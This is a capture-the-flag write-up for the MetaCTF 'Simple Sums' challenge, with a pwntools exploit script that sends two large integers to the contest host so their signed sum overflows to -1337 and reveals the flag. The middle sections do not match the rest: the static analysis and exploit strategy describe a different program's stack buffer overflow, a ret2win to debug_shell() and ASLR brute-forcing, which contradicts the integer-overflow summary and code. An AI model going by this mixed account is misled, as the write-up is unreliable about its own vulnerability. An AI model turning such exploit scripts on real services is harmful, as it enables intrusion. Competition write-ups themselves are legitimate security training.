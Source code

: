 # Simple Sums - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SimpleSums.gif)

---

## Challenge Summary

The program prompts the user for two **positive integers**, sums them, and prints the result. If the sum equals `-1337`, it reveals the flag. Though negative input is rejected, the program fails to check for **integer overflow**. By supplying large values that wrap around and cause the sum to equal `-1337`, the attacker can **trigger the win condition** and access `flag.txt`.

## Binary Information

```bash
$ file simplesums
```

![Alt text](img/2.png)

```bash
$ pwn checksec simplesums
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.

![Alt text](img/4.png)

In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.

![Alt text](img/5.png)

**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template simplesums --host host5.metaproblems.com --port 5030
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'simplesums')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5030)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

# (unsigned int)(-1337) = 2^32 - 1337 = 4294965959
# a + b == 4294965959

a = b'2147482312'
b = b'2147483647'
io.sendline(a)
io.sendline(b)
io.recvuntil(b"Good job! Here's your flag:")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")



```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program reads two positive integers from the user and adds them, but it does not check for **integer overflow**. Since `sum` is a signed integer, users can input large values that **wrap around** to negative numbers. By supplying inputs that cause the sum to equal `-1337` due to overflow, an attacker can bypass the logic and trigger the hidden `flag.txt` read.

---

## Flag

```
MetaCTF{c0unting_beyond_infinity}
```
